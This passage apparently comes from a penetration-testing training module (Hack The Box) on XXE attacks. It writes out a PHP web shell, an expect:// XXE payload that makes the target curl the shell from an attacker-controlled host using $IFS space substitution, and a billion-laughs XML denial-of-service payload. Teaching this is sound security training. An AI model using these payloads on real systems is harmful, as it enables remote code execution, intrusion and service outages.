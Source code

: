 The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands. To do so, we can start by writing a basic PHP web shell and starting a python web server, as follows:

  Local File Disclosure

```shell-session
ShibuShivansh@htb[/htb]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
ShibuShivansh@htb[/htb]$ sudo python3 -m http.server 80
```

Now, we can use the following XML code to execute a `curl` command that downloads our web shell into the remote server:

Code: xml

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

**Note:** We replaced all spaces in the above XML code with `$IFS`, to avoid breaking the XML syntax. Furthermore, many other characters like `|`, `>`, and `{` may break the code, so we should avoid using them.

Once we send the request, we should receive a request on our machine for the `shell.php` file, after which we can interact with the web shell on the remote server for code execution.

**Note:** The expect module is not enabled/installed by default on modern PHP servers, so this attack may not always work. This is why XXE is usually used to disclose sensitive local files and source code, which may reveal additional vulnerabilities or ways to gain code execution.

## XML DOS
One common use of XXE attacks is causing a Denial of Service (DOS) to the hosting web server, with the use the following payload:

Code: xml

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```
